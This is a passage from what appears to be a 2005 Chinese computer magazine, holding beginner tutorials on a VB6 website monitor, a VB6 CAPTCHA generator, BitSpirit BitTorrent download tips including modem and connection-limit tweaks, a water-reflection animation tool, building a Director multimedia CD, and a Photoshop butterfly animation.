Private Sub Timer1_Timer() '启动监视的时候Timer执行
On Error Resume Next '先忽略一切错误，为了能够让程序执行下去
If Inet1.StillExecuting Then Inet1.Cancel
For i = 0 To List2.ListCount - 1 '循环次数等于列表中待监测链接数
val = 0
val = Len(Inet1.OpenURL(List2.List(i))) '网址返回的长度
If val = 0 Then 'Inet返回值的长度为零，则记录无法访问
List1.AddItem (Now & Space(6) & List2.List(i) & Space(6) & "×") '不能访问计数+1
c2(i) = c2(i) + 1 '不能访问计数+1
Else
List1.AddItem (Now & Space(6) & List2.List(i) & Space(6) & "√") '反之，记录可以访问
c1(i) = c1(i) + 1 '能访问计数+1
End If
Next i
List1.AddItem Chr(10)
If List2.SelCount > 0 Then '在Text2中显示监测结果
Text2.Text = "当前统计信息:" & Chr(10) & List2.List(List2.ListIndex) & Space(6) & "正常访问:" & c1(List2.ListIndex) & "次" & Space(6) & "不能访问:" & c2(List2.ListIndex) & "次"
End If
End Sub
```

注意在本文通过Timer控件与Inet控件的结合非常巧妙地模仿了多线程的机制，程序反应速度非常快。 需要注意的是，不同网站访问速度不同，按本文方法，只有被测网址在Inet的RequestTimeout时间内刷新完才记录正常访问，如果网速过慢，需加大RequestTimeout的值（只要不要超过Timer的Interval时间），否则软件机器人会出现误报。

## 后记

本文通过VB自带的Inet控件以及简单的循环便实现了一个非常实用的软件机器人，服务器的任何问题都逃不过它的眼睛。如果对于Inet控件返回的内容加以判断，还可以开发出能够监视网络连载故事是否更新的软件机器人。此外，验证自己购买的虚拟主机是否真的有如广告说的那样不间断服务，对于我们的软件机器人而言，绝对是小菜一碟。 本程序在VB6.0、Windows XP联网状态下调试通过。完整的源代码可以从http://www.cfan.com.cn/11program/200514/agent.zip下载。 (北京 李赫元)

## 用VB制作验证码生成器

## 故事的发生

最近发现自己制作的共享软件客户中使用盗版者居多。一开始还以为注册机加密算法被识破了，调查后才知道原来是用黑客软件进行暴力破解的。我一次次加强软件加密算法，但效果并不理想。有一次，当我在注册雅虎邮箱时，发现它是通过输入验证码来验证用户的合法性以防止非法注册，难道我就不能使用这个方法来解决暴力破解的问题吗？ 当然，直接把验证码保存成图片固然可以防止一些黑客暴力破解，但由于现在破解技术的日益高明，简单图片很容易被识别，所以我们需要对图片进行一下“加密处理”。我的想法是用图片框输出验证码，再利用VB自带的画图函数将验证码描绘得奇怪一些，再随机添加乱七八糟的背景，从而只有人才能够识别，而暴力破解软件自然无能为力了。需要注意的是，我们的算法应该能使用户很容易分开验证码和背景色。 在编写这个程序之前我们需要掌握以下知识：1.图形文件的输出；2.VB中的画点、画线函数；3.调整图片框字体和背景色的方法。如果有什么问题的话可以参考程序谷以前刊登的张鸿的《感悟Visual Basic》系列文章。

## 算法设计

### 1.窗体设计

启动VB6并新建一个标准EXE工程，按照图中的方式布置好控件并设置好名称。接着将两个图片框的AutoRedraw属性设置成True，txt_inp、cmd_browse的Enabled属性设置为False，txt_inp的Maxlength属性设置成10。然后单击“工程→部件”，勾选“Microsoft CommonDialog Control 6.0”。

### 2.算法

加密过程是程序的重点。在这里我们运用画线和画点函数来处理图片，在图片框上随机选两个点画直线，同时用随机函数确定它的颜色；再随机点一个点，同样用随机函数确定它的颜色。在这里我们还用随机取字体样式和背景色，不过要注意的是，背景和字体颜色的差别要搞大一些，由于每个RBG分量值越大颜色越深，因此我们用下面两条语句就可以增强颜色的对比度：
pic_las.ForeColor = RGB(Rnd * 255, Rnd * 255, Rnd * 255)
pic_las.BackColor = RGB(Rnd * 55, Rnd * 55, Rnd * 55)
绘制图像的具体的代码如下：

```
Sub AddPas()
On Error GoTo Err1
pic_las.Print Space(10 - Len(Result)); Result
Dim x, y, x1, x2, i As Integer
'随机决定输出字体样式
pic_las.FontItalic = Int(Rnd * 2)
pic_las.FontUnderline = Int(Rnd * 2)
pic_las.ForeColor = RGB(Rnd * 155 + 100, Rnd * 155 + 100, Rnd * 155 + 100)
'为验证码添加随机直线
For i = 1 To (Int(Rnd(1) * 8) + 1)
x = Int(Rnd * pic_las.Width): y = Int(Rnd * pic_las.Height)
x1 = Int(Rnd * pic_las.Width): Y1 = Int(Rnd * pic_las.Height)
pic_las.Line (x, y)-(x1, Y1), RGB(Rnd * 255, Rnd * 255, Rnd * 255)
Next i
'为验证码随机添加圆点
For i = 1 To (Int(Rnd(1) * 200) + 100)
pic_las.PSet (pic_las.Width * Rnd, pic_las.Height * Rnd), _
RGB(Rnd * 255, Rnd * 255, Rnd * 255)
Next i
'写入输出文件
If chk_file.Value = 1 Then
SavePicture pic_las.Image, txt_outfile.Text
MsgBox "验证码已经保存在:" & txt_outfile.Text, vbInformation
End If
Exit Sub
Err1: '产生了错误
MsgBox Err.Number & ":" & Err.Description, vbExclamation
End Sub
```

内容处理好了，接下来就只要简单响应用户的操作即可。在这里我们还需要解决随机生成验证码的问题，我们可以把需要生成的验证码每一位都放入一个字符串，再用随机函数以及字符串截取函数Mid（String, Start As Long, [Length]）读入每一位验证码。另外为了增强程序的功能，我还允许用户保存和拷贝验证码以及允许用户自行定义验证码。由于版面有限，这里就不给出完整的源程序了，你可以从http://www.cfan.com.cn/11program/200513/vbpass.zip下载到完整的源代码。

## 总结

运行一下程序，“加密”效果还不错吧。这可不是一般的破解机器能识别得了的哦！当然你也可以将这个加密算法运用到你个人的程序和论坛上去，它为程序的安全性提供了很好的保证呢！由于本人才疏学浅，可能有很多需要改正的地方，如果大家对此程序有什么想法或者意见通通告诉我好了，我在Cfan论坛上的名字是Lieo，我的邮箱是： lieo_hunan@yahoo.com.cn。 (湖南 谢潇渔)

今天，你BT了吗？

## 实例1：初试身手，体验疯狂下载

第一步：到http://nj.onlinedown.net/soft/26970.htm下载最新版比特精灵（BitSpirit）3.0简体中文稳定版（以下简称BS），并进行安装。
第二步：第一次启动，BS会询问是否进行配置，确定后将进入设置向导窗口（以后可在菜单“选项→设置向导”中再调用）。在这个设置向导中，主要是在第二步中根据实际情况选择一种带宽类型，比如：北京家装512Kbps的ADSL，一般可选第一项“ADSL 512Kbps”，而在单位上网一般可选择“局域网或小区宽带”；第四步“UPnP支持”中，首先单击“查找UPnP设备”检测一下，如果没有找到，就不要选“启用比特精灵的UPnP支持”项，否则启动时会非常慢；接下来下一步，建议将“默认保存路径”C:\Downloads修改为非系统分区，比如D:\BT。其他步骤使用默认值即可，以后都可以修改。最后单击“完成向导”按钮，进入BS的主界面。注意：如果操作系统是Windows XP SP2，将弹出系统防火墙窗口，单击“解除阻止”即可。
第三步：BT下载有个不成文的规矩，那就是在自己下载完成后要继续做种一段时间，那下载完成后就停止的人违背了共享精神。不过做种时间太长，不仅影响自己的带宽，也会影响其他操作，因此建议直接设定继续做种时间，时间到达后自动停止。点击“选项→个人设置”，在打开窗口中进入“程序行为”选项卡，在“当下载完成后，继续做种子：”后面修改时间，比如：2小时。
第四步：要使用BS下载文件必须先有BT种子，也就是一种后缀名为.torrent的小文件，它里面保存了服务器地址、下载文件的大小、分成的块数以及各种下载参数设置等。BS内置了不少BT种子搜索网址，比如在软件主界面左侧单击展开“精彩BT发布页”，再双击其中的“飞客BT搜索引擎”，即可以在浏览器中打开该网站。
第五步：在飞客BT搜索网站主页的搜索框中输入想要下载资料的关键词，如“红楼梦”、“古典音乐”、“超级女声”等，再单击右侧“BT搜索”按钮，即可搜索到许多.torrent种子文件链接，并且还显示有种子数，下载文件大小、发布日期等信息，右击想要下载的链接，从右键菜单中选择“用比特精灵下载”，将打开添加任务窗口，单击其上的“高级”按钮展开它，如图1所示，是不是跟FlashGet非常的像。
第六步：添加任务窗口中大部分选项已自动填好，直接单击“确定”即可下载。不过，一般还要在“任务注释”框中填写一些相应的说明文字（如：“这是有关《红楼梦》的资料及讲座汇编”等，方便以后管理），还可以改变文件的保存目录。其实，除右键添加任务

小提示
别让BT成了硬盘杀手

- 网上总是流传着BT损坏硬盘，这是真的吗？首先请你赶快看看我们2004年第19期的《BT真的硬盘杀手吗？》一文，相信看过后，你不仅会完全了解BT的原理，同时也会放心地使用BT。
- 加大缓存护硬盘：如果内存在512MB以下，可以保留默认的缓存设置（20MB）；如果大于512MB，可以执行“选项→设置向导”，在向导窗口上单击两次“下一步”跳到“性能设置”页。选择第二项“优化为较小的磁盘操作”即可达到保护磁盘的作用。也可以选择第三项，再根据自己内存的大小自定义缓存块数量，注意，数字越大越占用内存。以512MB为例，将“每个任务的最大缓存块数”设置为128，“缓存块区失效时间”设置为300。如果内存更多，可考虑以512MB为标准，用“内存数：512×128=最大缓存块数”和“内存数：512×300=失效时间”的公式进行计算。



## 实例2：睡觉时让BS全自动下载

因为BT下载会占用相当多的带宽，不少朋友会选择在睡觉时让电脑下载。这时可以利用BS的计划任务和自动关机功能。
点击下载.torrent种子后BS打开添加任务窗口，单击“高级”按钮，在“任务类型”处选中“计划（指定运行时间）”项，再在下面设置好时间（如：2005.6.30 23:30:00），同时确认“做种时间”设置为2小时或其他时间。单击“确定”按钮，接着选中菜单“查看→完成后关机”。这样，到时间后BS就会自动开始下载，并且下载完成后自动关闭电脑。

## 实例3：逛“市场”换点种子去



BT下载最重要的是什么？当然是有效的BT种子啦！除通过软件、搜索引擎找种子外，BS独创的“种子市场”功能提供了另一个独特的获取种子的路径。
第一步：单击菜单“选项→个人设置”命令打开选项对话框，点击“特殊扩展”选项卡，选中“启用种子市场的功能”项，确定后退出。
第二步：当在下载某个资料时将会与其他用户建立起对等连接，如果对方的BT软件也支持BS的扩展协议，那么他的货物列表就会自动地发送给你，单击主界面左侧“种子市场”下面的“对方货物”就可以看到这个列表了。点选你想要的某一货物，再单击“添加任务”按钮即可下载了。
第三步：如果对方货物列表中没有包括种子文件的链接信息，那么“添加任务”按钮将呈灰色，无法添加新任务。这时你可以通过BS3.0中新增的技术，在公共DHT网络中自动寻找可用的种子进行下载，此时只要单击“添加任务（DHT）”按钮打开下载对话框，确定即可。
第四步：本着“人人为我，我为人人”的BT精神，你也可以将自己获得的“货物”共享给其他人。右击下载完成或正在下载的任务，选择“添加任务到市场”打开属性窗口，填写链接、注释等相关信息（一般会自动填好），再设置货物的有效期限（到期后货物会自动退出列表），确定后即可将该任务添加到“我的货物”中并共享给别人了。

小提示
如何永久保存种子市场里的“对方货物”？
默认情况下，BS是不保存种子市场里的“对方货物”的，这些货物只在本次程序运行期间才有效。如果想永久保存对方货物，可以先退出BS，然后用记事本打开BS安装目录下的“BitSpirit\config\config.torrent”（2.x版本直接在安装目录下）文件，查找“SaveGoods”在它的后面加上“ile”，即改成“SaveGoodsile”，保存后退出，重启BS就可以保存货物清单了。

## 实例4：让BT下载飘起来

没有最快，只有更快，速度永远是下载狂孜孜以求的目标之一。下面就介绍一下为BT提速的方法。

### 1. 破解SP2连接数
首先，如果是Windows XP SP2，它默认的并发连接数为10，不管你使用的是ADSL，还是局域网用户，增加此默认值可有效提高下载速度。点击“开始→程序→BitSpirit v3→XP SP2连接数破解补丁”，在打开的窗口中将当前限制数设置为推荐的256后，再单击“应用补丁”按钮即可。应用之后，重启系统，这样下载速度将得到很大提升。

小知识
什么是公共DHT网络？
使用过旧版BS的朋友可能会发现，在BS3.0的种子市场中多了一个“添加任务（DHT）”按钮，在添加任务窗口中多了一个“为本任务启用基于Kademlia技术的DHT网络”选项，那么，什么是公共DHT（Distributed Hash Table）网络呢？
Kademlia只是一项技术标准，通常称之为第3代P2P技术，而DHT则是该技术标准的具体实现。传统BT下载，所有种子文件都必须指定一个或多个种子服务器，即通常所说的Tracker（追踪）或Announce（宣告）地址，如果保存种子的服务器因为断电（或欠费停机）等原因掉线了，BT用户就可能无法完成该种子文件的上传与下载了。但在引入公共DHT网络后，BT用户可以通过DHT网络来获取连接，从而实现下载与上传，就不用再担心种子服务器是否会宕机了。绕开了种子服务器，那么下载的那些连接信息又保存在哪里呢？简单来说，这些连接信息保存在根据一定的算法挑选出的DHT网络参与者（即DHT节点）之间，也就是说，一旦你加入公共DHT网络，你就会获得一个随机的ID，成为DHT网络的节点之一，需要负责维护一部分种子文件的连接信息，等同于你自身也是一个种子服务器了。当然，DHT是一种底层实现，一般用户无需关心它。

### 2. 分清自己处于哪个网
对于局域网（内网）和外网，BT提速方法也不相同，通过下面方法可以快速判断自己的电脑处于局域网或是外网。
在Windows 2000/XP中打开命令提示符窗口，输入“ipconfig”命令回车后，看它是否包含在下面三类地址中：

A类:10.0.0.0 ~ 10.255.255.255
B类:172.16.0.0 ~ 172.31.255.255
C类:192.168.0.0 ~ 192.168.255.255

如果包含在其中，则你的电脑处于内网中，反之则处于外网中。
另外，还可以使用MSN Messenger来判断，单击“工具→选项→连接”，在“高级连接信息”中，如果显示有“直接连接”字样，则表示处于外网，如果没有显示“直接连接”字样，并有“网址转换”、“代理”等信息，则处于局域网。

### 3. 内网用户如何提高BT下载速度

#### 第一步: 提高任务的最大连接数
关掉BS，进入其安装目录“BitSpirit\config”(BS 2.x中为“BitSpirit\”)中，用记事本打开其中的“user.ini”文件，如图3所示，将该文件[DOWNLADEX]一节中三个参数的默认值分别修改为80、320、10。这几个参数的详细含义，请参考本刊《改参数让比特精灵极速狂飙》一文。



#### 第二步: 内网互联
内网用户最好开启BS的内网互联功能，它能帮助处在不同局域网的用户相互传输数据，就像处在同一个网内一样。此功能可以在绝大多数内网环境中运作良好并能提高下载速度。单击“选项→个人设置→代理与内网”，选中“启用内网互联功能”；再在其右侧的下拉列表中选择“一直启用”。

### 3. ADSL如何提高BT下载速度
一些ADSL用户在进行BT下载时，发现下载速度竟然只有几KB或0KB，请参考以下方法进行排除。

#### (1) 自动端口映射
速度慢的一个主要原因便是，使用路由模式上网，但没有给Modem或路由器打开端口映射。最好直接使用BS的“UPnP自动端口映射”功能，这样不必手动设置。如果你想了解更多端口映射，可参考下面两个非常不错的教程帖子:
http://www.bytelinker.com/bbs/viewthread.php?tid=2518
http://www.167bt.com/bbs/viewthread.php?tid=6231

#### (2) 添加规则
默认情况下Windows XP/SP2会打开ICF防火墙，禁止BT下载。不过BS能自动为ICF添加规则，使用BS时这种情况通常不会发生。如果感觉下载有异常，可在控制面板中双击打开“Windows防火墙”，点击“例外”选项卡，为BS的16881端口添加规则即可。

#### (3) 设置预防断流
ADSL路由模式上网用户可能会遇到“断流”现象，表现为速度为0或几KB，网页也打不开。你可以在BS中单击“选项→个人设置→网络设置”，选中“预防断流”项(它只是告诉BS你的网络容易断流，并不能改善网络设备和网络连接的质量)。另外，不要同时运行一个以上的任务。不过，如果没有遇到断流现象最好不要选它，否则会影响下载速度。

#### (4) 从Modem下手的超级防断流绝招
这个断流解决方案适用于viking芯片的(如电信大多数送的华硕AAM6000EV系列、实达的VIKING芯片)Modem。通过加大Modem的IP会话条数来提高Modem连接性能，防止断流。

##### 第一步: 通过Modem说明书了解其IP地址，用户名和密码。
##### 第二步: 打开命令提示符模式，输入以下命令(括号内是说明文字，不用输入):

```
telnet 192.168.1.1(ADSL Modem的IP地址，请根据情况自行修改)
输入用户名和密码登录(输入密码是看不到的，输完后按回车键即可进入)
$modify nbsize maxipsess 500($是自带的，不用输入，数值按需要设定，500是华硕AAM6000EV/G3的最大值，再上就没有了，不过Modem发热量会上升不少)
$commit
$reboot
这样修改就完成了。
```

##### 第三步: 接下来查看一下IP会话的最大值:

```
$get nbsize
```

接下来会显示:Max IP Session : 500(如果这个数值是你修改的那个就表示你成功了)
HTTP Port : 61580
Telnet Port : 61581
如果你在使用这个技巧时有任何问题，可到http://www.167bt.com/bbs/viewthread.php?tid=23452&page=1来与帖子作者讨论。

#### (5) 不用路由用拨号
ADSL出现BT下载速度慢的情况主要集中在使用了路由模式上网，如果你家只有一台电脑，建议关闭路由而采用拨号方式，同时在选择拨号软件时也要注意，建议选择CFos这款拨号软件，它特别针对像BT这样上传和下载量都非常大的情况设计，并且连接效率要优于其他同类软件。其下载地址为:http://nj.onlinedown.net/soft/21287.htm。

#### (6) 适当限制上传
对于ADSL来说，上传量不作限制，会占用太多带宽，也会影响到下载速度。所以，要在下载与上传之间找到一个平衡点。BS建议上传速度不高于最大上传的80%，笔者则觉得60%比较合理。单击“选项→设置向导”启动向导，单击“下一步”进入网络设置，单击其上的“高级”按钮，然后修改“最大上传速度”的值即可。比如，你用的是512KBps的ADSL，则最大上传速度差不多是64KBps，乘以60%则约等于38KBps。另外在该窗口中，最大连入和连出的值可分别设置为30和22。其他带宽不同的网络，可依以上的设置类推。

## 实例5: 爱我所爱，只下载我想要的
当下在某一音乐合集文件时，也许只想要其中的某几首歌，这时可以有选择地下载，节省宝贵时间。

#### 第一步: 点选正在下载的任务，然后单击下方的“文件选项”标签(即第五个标签)。
#### 第二步: 列表中显示出当前下载文件包中的所有文件，右击不想下载的文件，选择“设置优先级别→不要下载”即可，该项前面将变成垃圾桶图标。已经下载完成的项目则显示出对钩号。
也可以单击“停止”按钮停止下载，然后右击列表中的下载任务，选择“编辑属性”命令，在打开的窗口中点选“文件设定”选项卡，在文件列表中只勾选需要下载的文件，确定即可。

## 实例6: 做种子我也行
BT下载了N多资料后，是不是也想发扬一下风格，将自己的好东东共享给大家。下面的方法就来教你如何自己做种子。

#### 第一步: 启动BS，单击菜单“功能→制作种子文件”命令打开Torrent专家窗口，单击“文件→添加文件(或添加目录)”命令，选择一个文件(或目录)并打开它，将它加到专家窗口的列表中。
#### 第二步: 在“种子服务器列表”中输入种子服务器的网址，如果你没有服务器网址也没关系，BS 3.0中，只要选中“为种子文件启用无须种子服务器的DHT网络功能”项即可。其他选项根据提示填写即可，设置完毕可单击“制作”按钮，保存种子文件。
#### 第三步: 最后单击“发布”按钮打开添加任务窗口，填写好相关信息后确定即可加到下载任务中，其他人就可以下载它了。你也可以将它加到种子市场中供人下载。

(北京 一页 风言)

## 两步！做悠悠绿水荡漾起来
前几天接到朋友求援，问我有没有制作动态水波的小工具，他想给旅游拍摄的山水照片加点水波动画。但这位老兄是个标准菜鸟，像Flash MX这样专业、复杂的大软件，让他一下子学会是不太可能的。所以笔者帮他从网上找到了一款名为Sqirlz Water Reflections的小工具，简单点击几次鼠标，便可制作出像模像样的Flash动画来。动画效果文件及图片素材，大家可从http://www.newhua.com/cfan/200514/water.rar处下载。

Sqirlz Water Reflections小档案
软件版本: 1.20
软件大小: 580KB
软件性质: 免费软件
适应平台: Windows 9X/2000/XP
下载地址: http://www.tucows.com/preview/382027

#### 第一步: 启动Sqirlz Water Reflections后，选择“File→Open”命令打开一幅山水图片。注意: 图片尺寸不要太大，最好预先处理成500x500像素以内，否则生成Flash不成功。



#### 第二步: 点击主窗口左侧工具栏上的“Start creating Outline”工具(第一个图标)，然后通过连续点击鼠标在图片中的水域画出水波设置的封闭选区，最后右击鼠标结束(见图)。画完后还可以使用工具栏“Move Outline”工具(第二个图标)移动选区，用“Outline New Segment”工具(第三个图标)建立新选区，另外“Smooth Outline”工具(第四个图标)可对选区轮廓进行圆滑处理。
#### 第三步: Sqirlz Water Reflections内置的水波类型很多，我们可以单击顶部工具栏上的“Customize Reflection”按钮进入设置窗口。在“Motion Type”选项里可直接调用它的几个模板，每个模板下都有几个参数栏可调: “Wave Strength”为扭曲强度，“Wave Separation”为波浪幅度，“Wave Brightness”为水面亮度，“Transparency”为透明度，“Underwater Scene Rippling”为倒影强度等。感兴趣的朋友可根据素材的情况和自己的创作意图仔细调整这些参数，以达到想要的效果。一般情况下采用默认值即可。
#### 第四步: 设置完毕点击顶部工具栏“Run Animation”按钮(黄色箭头图标)即可看到水波倒影的动画效果了，青山巍巍，绿水荡漾，真是太酷了！最后使用“Save animation as Flash movie”工具就可以把它存储为Flash动画文件了，它制作的SWF文件还可以调入Flash中进行二次编辑。如果你想将其用在电影剪辑中也不难，使用工具栏里的“Save animation as video clip”还可以存为AVI格式的视频剪辑。

(山东 猫咪老爸)

## Director——《电脑爱好者》四季光盘大揭秘

网络动画制作，Flash 大行其道，而在多媒体光盘制作方面，最流行的当属 Director 了。这两款软件同属 Macromedia 公司的产品，它们各有千秋又互为借鉴，比如在 Director 中就可以导入 Flash 制作的动画。与 Flash 比起来，Director 形象直观，更容易学习使用，有了它，你就可以像真正的导演一样，随意剪辑制作自己的动画影片了。
《电脑爱好者》四季光盘的幕后“导演”就是 Director，本文将模拟出该套光盘的制作过程，从而教会大家使用 Director。不过真正的四季光盘，制作精美，内容丰富，我们不可能在一篇文章中介绍到它所有的制作细节。另外，本文涉及到的素材及源文件，可从 http://www.newhua.com/cfan/200514/director.rar 处下载。

#### 第一步: 启动 Director MX 2004(以下简称 Director)，执行“File→New→Movie”(快捷键为 Ctrl + N)新建一个 Director 文件。现在的 Director 工作界面将如图 1 所示。



Director 将每一个工程都形象地称为电影(Movie)，组成电影的元素称为角色(Cast)，电影情节发生的地方称为舞台(Stage)，控制情节的窗口叫做剧本(Score)。
角色窗口(Cast): 组成电影的每一个元素——图像、声音、脚本、Flash 动画等都可以看作是参与演出的角色。而角色窗口正是存储和组织角色的地方，按快捷键 Ctrl + 3 可以显示或隐藏角色窗口。默认情况下，角色窗口以列表方式显示角色，但是大部分人更愿意以缩略图方式来显示，可以单击窗口上侧的 Cast View Style 按钮，在列表和缩略图方式之间切换。
剧本窗口(Score): 剧本是每一部电影的灵魂，它控制着电影里的每一个演员，并告诉它们该做什么。Director 剧本窗口中纵向部分称之为帧(Frame)，横向部分称之为通道(Channel)。剧本以时间序列来记录舞台的活动，角色就放置在被称为通道的地方，其中的每一格称为 1 帧。显示或隐藏剧本窗口的快捷键为 Ctrl + 4。
舞台窗口(Stage): 角色的各种表演，最终将通过舞台展示给观众，舞台窗口之外的东西都是为之服务的幕后。在使用 Director 开始工作之前，首先要设置好舞台的大小: 点击一下舞台窗口激活它，再在右侧 Property Inspector(属性检查器)面板中单击 Movie 选项卡，在 Stage 项后面，将 S 设置为 800，X 设置为 600。这里的单位是像素，800 × 600 像素比较符合一般人的屏幕大小。

#### 第二步: 导入制作光盘首页时要使用的图片。执行菜单“File→Import”命令(快捷键为 Ctrl + R)，在打开的对话框中，选中素材文件夹中的“首页版面 TIF.tif”，然后单击“Import”按钮，随之会打开图像属性对话框，点选“Stage(24 bits)”项，确定即可。以同样方法导入首页所需的其他文件:“首页文字 1a.psd”、“首页文字 1b.psd”、“首页文字 2a.psd”、“首页文字 2b.psd”、“首页文字 3a.psd”、“首页文字 3b.psd”、“按钮 1a.psd”、“按钮 1b.psd”、“按钮 2a.psd”、“按钮 2b.psd”、“按钮 3a.psd”、“按钮 3b.psd”、“离开按钮 1.psd”。其实在导入对话框中，可以配合使用 Ctrl 和 Shift 键选中多个文件同时导入。这些图形文件是在 Photoshop 之类的软件中预先制作好的，大家可以直接自己制作，也可以直接从本文提供的素材包中获得。

#### 第三步: 在角色窗口中按住角色“首页版面 TIF”(这是光盘首页的背景图)不放，并把它拖到剧本窗口第 1 个通道的第 1 帧上。被拖到通道中的角色称作 Sprite，通道 X 上面的角色自动命名为 Sprite X，如拖到通道 1 中的“首页版面 TIF”就被命名为“Sprite 1”。此时的舞台窗口上将显示出“首页版面 TIF”背景图形。Director 默认的帧长为 30 帧，可以在第 30 关键帧处按住鼠标左键不放，拖动第 30 关键帧到第 20 帧处。接着将角色“首页文字 1a”拖放到剧本窗口的通道 4 上，角色将自动命名为“Sprite 4”，点选显示在舞台上的“首页文字 1a”图形，其周边会显示一个带节点的边框，拖动节点可以调整图形的大小，拖动边框可以调整图形的位置，将其拖放到背景图形最上面那个按钮的位置上。以此类推，将其他角色也放置到舞台上，具体编排如下(可参考图 2 所示的设置):

| 角色名称         | 通道位置   | 放置的范围       |
|------------------|------------|------------------|
| 第一页版面 TIF   | Sprite 1   | 第 21 帧~第 40 帧 |
| 首页文字 1a      | Sprite 4   | 第 21 帧~第 40 帧 |
| 电脑爱好者封面 1 | Sprite 5   | 第 21 帧~第 40 帧 |
| 电脑爱好者封面 2 | Sprite 6   | 第 21 帧~第 40 帧 |
| 电脑爱好者封面 3 | Sprite 7   | 第 21 帧~第 40 帧 |
| 电脑爱好者封面 4 | Sprite 8   | 第 21 帧~第 40 帧 |
| 回首页按钮 1     | Sprite 11  | 第 21 帧~第 40 帧 |
| 离开按钮 2       | Sprite 12  | 第 21 帧~第 40 帧 |

| 角色名称         | 通道位置   | 放置的范围       |
|------------------|------------|------------------|
| 第二页版面 TIF   | Sprite 1   | 第 41 帧~第 60 帧 |
| 首页文字 2a      | Sprite 4   | 第 41 帧~第 60 帧 |
| 回首页按钮 2     | Sprite 11  | 第 41 帧~第 60 帧 |
| 离开按钮 3       | Sprite 12  | 第 41 帧~第 60 帧 |

| 角色名称         | 通道位置   | 放置的范围       |
|------------------|------------|------------------|
| 第三页版面 TIF   | Sprite 1   | 第 61 帧~第 80 帧 |
| 首页文字 3a      | Sprite 4   | 第 61 帧~第 80 帧 |
| 回首页按钮 3     | Sprite 11  | 第 61 帧~第 80 帧 |
| 离开按钮 1       | Sprite 12  | 第 61 帧~第 80 帧 |



#### 第四步: 首页制作好后，开始制作二级界面的第一页。执行菜单“File→Import”命令打开导入对话框，分别导入素材文件夹中的“第一页版面 TIF.tif”、“回首页按钮 1.psd”、“离开按钮 2.psd”、“电脑爱好者封面 1”、“电脑爱好者封面 2”、“电脑爱好者封面 3”、“电脑爱好者封面 4”(可从本文提供的素材包中获得)。按照上一步中的方法并参考图 3，设计好二级界面的第一页。注意: 二级界面的起始帧为第 21 帧。



#### 第五步: 继续制作二级界面的第二页及第三页，首先导入素材“第二页版面 TIF.tif”、“回首页按钮 2”、“离开按钮 3”、“第三页版面 TIF.tif”、“回首页按钮 3”。
#### 第六步: 实现互动功能。以上五个步骤是导入素材及角色编排的准备阶段，为防止意外，先执行菜单“File→Save”命令保存当前影片，本示例保存为“四季光盘 dir”。接下来我们要使导入的角色各尽职能，发挥它们的交互功能。

1.  单击剧本窗口右上角的上下双箭头按钮，可展开最上方的 Effects Channels(特效通道)，它包含 6 个通道，从上到下依次为: 帧播放速度(Tempo)、调色板(Palette)、转场效果(Transition)、声音通道 1(Sound Channel 1)、声音通道 2(Sound Channel 2)、帧脚本通道(Frame Script Channel)。
2.  执行菜单“Windows→Library Palette”命令打开库面板，库面板上分门别类地预置了许多的行为，单击窗口左上角的 Library View Style 按钮切换到树状视图状态，单击展开“Behaviors→Navigation”，将其中的 Hold on Current Frame 分别拖放到帧脚本通道的第 1、21、41、61 帧上。这样就可以让电影播放到某一页时都会停下来，直到我们命令它继续播放其他页面。
3.  接下来我们继续制作文字、按钮以及图片的变换效果。比如我们要使画面中的按钮在鼠标移过去的时候变换成另一种样式。可打开库面板，展开“Behaviors→Animation→Interactive”，其中的 Rollover Member Change 行为可以让鼠标移动到某一个对象上时，能更换该对象的图案。将这个行为拖到剧本窗口中，把它放置在 Sprite 4 的 1~19 帧上的“首页文字 1a”角色上，此时出现一个对话框，询问我们要替换成什么角色。单击对话框中的下拉按钮，选择“首页文字 1b”，单击“OK”确定后，一个可动态变化的按钮就设置完成了。

| 位置   | 原角色名称         | 要替换的角色名称 |
|--------|--------------------|------------------|
| 首页   | 首页选项 1a        | 首页选项 1b      |
|        | 首页选项 2a        | 首页选项 2b      |
|        | 首页选项 3a        | 首页选项 3b      |
|        | 按钮 1a            | 按钮 1b          |
|        | 按钮 2a            | 按钮 2b          |
|        | 按钮 3a            | 按钮 3b          |
|        | 离开按钮 1         | 离开按钮 2       |
| 第一页 | 首页选项 1a        | 首页选项 1b      |
|        | 电脑爱好者封面 1   | 电脑爱好者封面 2 |
|        | 电脑爱好者封面 2   | 电脑爱好者封面 3 |
|        | 电脑爱好者封面 3   | 电脑爱好者封面 4 |
|        | 电脑爱好者封面 4   | 电脑爱好者封面 1 |
|        | 回首页按钮 1       | 回首页按钮 2     |
|        | 离开按钮 2         | 离开按钮 3       |
| 第二页 | 首页选项 2a        | 首页选项 2b      |
|        | 回首页按钮 2       | 回首页按钮 3     |
|        | 离开按钮 3         | 离开按钮 1       |
| 第三页 | 首页选项 3a        | 首页选项 3b      |
|        | 回首页按钮 3       | 回首页按钮 1     |
|        | 离开按钮 1         | 离开按钮 2       |

# 彩蝶翩翩入梦来

蝴蝶，你这至美的精灵！自古以来，你就是爱情的象征和自由的化身！你飞进了画者的梦里，于是有了《晴春蝶戏图》这样的惊世之作；你飞进了乐人的梦里，于是有了《梁祝》这样的天籁之音；你飞进了我的梦里，于是，在Adobe公司的两个著名软件——Photoshop及After Effects的帮助下，彩蝶在我的屏幕上翩翩起舞了……

# Photoshop里面“抓”蝴蝶

首先准备一张蝴蝶图片（见图1）。为实现蝴蝶翩翩起舞的动态效果，需先将照片中的蝴蝶“抓取”出来，然后将蝴蝶的身体及左右翅膀分别存放在不同的图层中。（本文素材图片及最终动画效果，可从 http://www.newhua.com/cfan/200514/hudie.rar 处下载到）



第一步：启动Photoshop，打开蝴蝶素材图片，执行“滤镜→抽出”命令打开抽出滤镜窗口。用左侧工具箱中的边界高亮工具（第一个图标）勾画出蝴蝶的大致轮廓，然后用填充工具（第二个图标）在勾画的轮廓内点击一下，填充提取对象的内部区域，点击“OK”按钮确定后返回Photoshop主界面，可以看到，蝴蝶已经被提取出来了。可以使用画笔或橡皮工具对蝴蝶稍作修饰。

第二步：在After Effects中设置蝴蝶舞动翅膀的效果时，要将所有层转化为3D层，在三维空间内对其进行操作。为了保持三维空间“Y轴”的方向与蝴蝶的“Y轴”方向一致，需在Photoshop里先把蝴蝶的位置调整为垂直方向。上一步中提取出来的蝴蝶自动转化为透明层，此时按Ctrl + T键，蝴蝶周围将显示一个调整框，将光标移到调整框外，光标会变成弯曲的箭头状，此时拖动鼠标即可旋转蝴蝶了，使蝴蝶头上尾下呈垂直状，再回车确定。

